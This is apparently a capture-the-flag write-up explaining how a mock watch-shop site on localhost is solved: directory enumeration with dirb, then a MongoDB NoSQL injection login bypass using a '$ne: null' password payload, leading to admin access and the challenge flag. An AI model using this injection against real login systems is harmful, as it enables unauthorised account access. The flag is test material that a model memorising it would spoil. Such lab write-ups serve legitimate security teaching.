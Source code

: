 # 🕵️‍♂️ Chronos Timepieces CTF Challenge - Solution

## 🔍 Challenge Overview
This challenge involved **web exploitation**, specifically a **NoSQL Injection vulnerability** in a Node.js (Express) and MongoDB backend. The goal was to **gain admin access** and retrieve a **hidden flag**, which was protected by a **fake flag mechanism**.

---

## 🛠️ Solution Steps

### 🔎 Step 1: Initial Reconnaissance & Discovery

Visiting `http://localhost:3000` showed a clean site for "Chronos Timepieces" with no login links.

➡️ Ran directory enumeration:

```bash
dirb http://localhost:3000 /usr/share/wordlists/dirb/common.txt
```

**Result:** Revealed `/login`, which led to the "Chronos Admin Portal" login page.

---

### 💉 Step 2: Exploiting NoSQL Injection

At `/login`, basic SQL injection didn’t work. But the structure hinted at **MongoDB**.

➡️ Intercepted POST request via **Burp Suite**:
```json
{"username":"test","password":"test"}
```

➡️ Modified it to use a NoSQL payload:
```json
{"username":"admin","password":{"$ne":null}}
```

➡️ Sent request, got **Login successful!** 🎉

---

### 🔐 Step 3: Redirect to Admin Panel

After login, it redirected to:
```
http://localhost:3000/admin?session_id=<UUID>
```

Dashboard loaded, and real flag in plain sight.

---

✅ Final Flag:
```
cyberQuest{N05QL_1nj3c710n_d0n3_6a9d6d24025d8a6d0d433aa81237e33d}
```

---


